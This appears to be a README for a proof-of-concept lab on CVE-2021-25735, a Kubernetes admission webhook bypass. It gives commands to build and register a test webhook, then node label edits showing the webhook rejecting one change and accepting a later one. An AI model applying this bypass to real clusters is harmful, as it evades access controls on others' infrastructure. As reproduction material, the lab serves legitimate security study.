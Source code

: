 # CVE-2021-25735
## Exploit CVE-2021-25735: Kubernetes Validating Admission Webhook Bypass

### Set the Vulnerable Environment

Let's start with running the script gencerts.sh to generate TLS certificates and keys. \
` bash gencerts.sh`

To deploy the admission controller you need to build the Docker container image locally, tag, and push the image to your Dockerhub using the below commands.\
`docker login` \
`docker build -t validationwebhook:1.0 .` \
`docker tag validationwebhook:1.0 darryk/dev:1.0` \
`docker push darryk/dev:1.0`

Now you can deploy the created image with the Node.js application into your K8s cluster. The webhook-deploy.yaml will deploy all the needed components in your cluster. \
`kubectl apply -f webhook-deploy.yaml`

Let's now register our webhook with Kubernetes API Server. To do that, we create a Base64 of the ca.crt file created before and replace the CA_BUNDLE inside webhook-registration.yaml. \
`cat ca.crt | base64`

Finally, we will register the webhook with the Kubernetes API Server. \
`kubectl apply -f webhook-registration.yaml`


### Exploit CVE-2021-25735

We do a change in the node label using edit nodes and we add a new label.\
`kubectl edit nodes ip-172-20-61-82.ec2.internal`

```
  labels:  
    test: test  
    changeAllowed: "false"
```

Since the ChangeAllowed is set to "false" we get the following error:
> error: nodes "ip-172-20-46-130.ec2.internal" could not be patched: admission webhook "validationwebhook.validationwebhook.svc" denied the request: Validation failed
> You can run `kubectl replace -f /tmp/kubectl-edit-irc64.yaml` to try this update again.

If we retry to modify the node performing the following change:\
```
  labels:  
    test: test  
    changeAllowed: "true"
```

In this case the edit action has been accepted bypassing the admission controller.